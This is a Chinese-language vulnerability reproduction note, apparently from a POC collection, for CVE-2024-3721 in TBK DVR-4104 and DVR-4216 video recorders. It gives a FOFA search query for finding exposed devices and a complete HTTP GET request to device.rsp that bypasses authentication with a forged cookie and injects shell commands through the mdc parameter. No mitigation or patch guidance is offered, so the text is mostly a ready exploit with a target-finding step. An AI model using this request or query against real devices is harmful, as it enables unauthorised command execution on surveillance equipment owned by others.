 # TBK DVR硬盘录像机device存在远程代码执行漏洞(CVE-2024-3721)

**一、漏洞简介**  
 TBK DVR硬盘录像机是专业的视频监控设备，支持高清录制、远程监控和智能分析等功能，为各种场所提供稳定可靠的安全监控解决方案。该产品device.rsp 接口处存在命令执行漏洞，未经身份验证的远程攻击者可以利用此漏洞绕过cookie认证执行任意系统指令，写入后门文件，获取录像机shell权限。    
**二、影响版本**  
TBK DVR-4104

TBK DVR-4216  
**三、资产测绘**  
●fofa `"Location: /login.rsp"`![1715357452117-0503040a-73a2-4977-b9b6-9a4cacebc1c9.png](./img/nL3f78cvd3-lc5rB/1715357452117-0503040a-73a2-4977-b9b6-9a4cacebc1c9-380767.png)  
**四、漏洞复现**

```yaml
GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=uname%20-a;pwd;ls HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Cookie: uid=1
```

![1715357380708-66eba540-fa97-4730-8826-a3a88312db04.png](./img/nL3f78cvd3-lc5rB/1715357380708-66eba540-fa97-4730-8826-a3a88312db04-601760.png)





> 更新: 2024-05-13 11:48:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sg4z4l6xsevsochr>